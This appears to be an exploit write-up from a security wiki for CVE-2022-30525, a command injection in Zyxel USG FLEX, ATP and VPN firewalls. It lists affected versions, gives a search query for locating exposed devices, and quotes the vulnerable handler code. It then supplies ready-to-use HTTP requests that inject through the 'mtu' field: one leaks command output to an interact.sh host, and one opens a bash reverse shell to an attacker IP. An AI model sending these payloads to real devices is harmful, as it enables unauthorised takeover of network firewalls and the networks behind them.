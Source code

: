 # Zyxel USG FLEX handler Remote Command Execution Vulnerability CVE-2022-30525

## Vulnerability Description

Rapid7 discovered and reported a vulnerability that affected Zyxel firewalls that support Zero Touch Configuration (ZTP), including the ATP series, VPN series, and USG FLEX series (including USG20-VPN and USG20W-VPN). 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">USG FLEX 100, 100W, 200, 500, 700 < ZLD5.00 - ZLD5.21 Patch 1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">USG20-VPN, USG20W-VPN < ZLD5.10 - ZLD5.21 Patch 1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ATP 100, 200, 500, 700, 800 < ZLD5.10 - ZLD5.21 Patch 1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="USG FLEX" </span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652439754909-48eee255-7036-44e3-b6e1-6ae32e1ddc9f.png)

The file with the vulnerability is the setWanPortSt method under lib_wan_settings.py

```java
def setWanPortSt(req):

    reply = {}
    vlan_tagged = ''
    logging.info(req)
    port = req["port"].strip()

    vlanid = req["vlanid"]
    proto = req["proto"]
    data = req["data"]
    vlan_tagged = req["vlan_tagged"]
    
    cmdLine = ''
    GUIportst = {}
    
    extname = findextname(port)

    #TODO: subprocess method
    try:
        if vlan_tagged == '1':
            if vlanid == '':
                vlanid == '0'

        if proto == "dhcp":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 11 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 1 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            if "option60" in data:
                cmdLine += ' ' + data['option60']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "static":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            prefix_length = netmask_to_cidr(data['netmask'])
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 12 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 2 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + data['ipaddr'] + ' ' + str(prefix_length) + ' ' + data['gateway'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' ' + data['firstDnsServer']
            if 'secondDnsServer' in data:
                cmdLine += ' ' + data['secondDnsServer']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "pppoe":
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 13 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 3 '
            #extname = findextname(port)

            if 'auth_type' not in data:
                data['auth_type'] = 'chap-pap'
            if 'mtu' not in req:
                req['mtu'] = '1492'
            if 'ipaddr' not in data:
                data['ipaddr'] = '0.0.0.0'
            if 'gateway' not in data:
                data['gateway'] = '0.0.0.0'
            if 'firstDnsServer' not in data:
                data['firstDnsServer'] = '0.0.0.0'

            cmdLine += extname + ' ' + port.lower() + ' ' + data['username'] + ' ' + data['password'] \
                + ' ' + data['auth_type'] \
                + ' ' + data['ipaddr'] + ' ' + data['gateway'] \
                + ' ' + data['firstDnsServer'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' >/dev/null 2>&1'
            
        logging.info("cmdLine = %s" % cmdLine)
        with open("/tmp/local_gui_write_flag", "w") as fout:
            fout.write("1");

        response = os.system(cmdLine) 
        logging.info(response)
        if response != 256:
            logging.info("cmd thread return error")
            reply = {"error": 500}
        else:
            logging.info("cmd success!!")
            reply["stdout"] = [{}]
            reply["stderr"] =""
            with open(WAN_PORT_LAST_CHANGED, "w") as fout:
                fout.write(port)
            if not os.path.exists(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD):
                reply = {"error": 500, "exception": "Cannot find data2cloud folder!"}
            with open(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD + 'local_wan_modified', 'a+') as fout:
                fout.write(port + ' ')
            
    except Exception as e:
        reply = {"error": 500, "exception": e}
   
    return reply
```

From the source code, you can see that the spliced ​​parameter is `mtu`, and then the `os.system` command is executed directly

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652442517990-2f1e198d-0abd-46a5-bc74-e56da3ae6ccb.png)

Verify POC

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";curl `id`.c9y7h342vtc00002dwxggr9tukwyyyyyj.interact.sh;","data":"hi"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652439825625-87592d2f-85fb-45ae-8148-d9be83dd654a.png)

Rebound Shell

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652440046272-4e76d5be-0f5a-4f91-ae4a-043a9e6835a6.png)